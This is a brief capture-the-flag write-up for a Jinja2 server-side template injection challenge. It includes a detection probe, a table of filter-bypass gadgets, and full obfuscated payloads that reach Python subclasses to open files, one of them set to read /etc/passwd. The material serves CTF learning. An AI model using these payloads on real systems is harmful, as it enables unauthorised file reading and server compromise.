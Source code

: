 # Discovery of SSTI vuln:
```
http://challenge2.lagncrash.com:17654/{{7*7}}
```
![](./1.png)
<br>
Reference: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection
<br>
<br>
<br>

# Getting bypass filter codes:
```
[[]|map|string|list][0][0] = <
[[]|map|string|list][0][42] = >
[[]|map|string|list][0][20] = _
[[g]|string|list][0][13] = '
[[g]|string|list][0][7] = .
```

<br>
<br>
<br>

# Decided to try the payload:
Payload:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['fort', [1|float|string|list][0][1], 'py']|join,'r')|attr('read')() }}
```
Changed to /etc/passwd:
```
{{ [[''|attr([[[]|map|string|list][0][20]*2,'class',[[]|map|string|list][0][20]*2]|join)|attr([[[]|map|string|list][0][20]*2,'mro',[[]|map|string|list][0][20]*2]|join)][0][2]|attr([[[]|map|string|list][0][20]*2,'subclasses',[[]|map|string|list][0][20]*2]|join)()][0][40](['/etc/passwd','r')|attr('read')() }}
```
![](./2.png)
<br>
<br>
<br>
Ditching start from scratch to just get flag.txt
<br>
![](./3.png)
<br>

Reference: https://fireshellsecurity.team/asisctf-fort-knox/ (All the techniques)
Reference: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/ (Changing the techniques to do stuff)